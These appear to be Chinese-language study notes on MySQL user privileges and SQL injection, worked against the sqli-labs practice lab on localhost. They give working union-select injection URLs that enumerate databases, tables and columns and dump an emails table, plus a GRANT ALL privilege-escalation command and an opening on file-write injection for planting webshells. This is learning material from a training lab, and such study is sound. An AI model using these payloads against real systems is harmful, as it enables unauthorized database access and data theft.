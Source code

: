 ```
```
> 只提供id查询权限
```
grant select(id) on test.temp to test1@'localhost' identified by '123456'
```
> 把普通用户变成管理员权限
```
GRANT ALL PRIVILEGES ON *.* TO 'test1'@'localhost' WITH GRANT OPTION
```
> 删除用户
 ```
drop user finley@'localhost'
```

- 查询数据库名
    - http://127.0.0.1/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
![](图片/Pasted%20image%2020241025181234.png)
- 查询数据库对应的表名
    - http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=0x7365637572697479   （security的16进制）
![](图片/Pasted%20image%2020241025182914.png)
- 查询表名对应的字段名
    - http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x656d61696c73     （emails）
    - ![](图片/Pasted%20image%2020241025183406.png)
- 查询数据
    - http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(id),group_concat(email_id)%20from%20security.emails
    - ![](图片/Pasted%20image%2020241025183829.png)
# 文件读写
- 文件读写注入的原理
    - 就是利用文件的读写权限进行注入，它可以写入一句话木马，也可以读取系统文件的敏感信息。
- 文件读写注入的条件
    - 高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限
    - **secure_file_priv选项**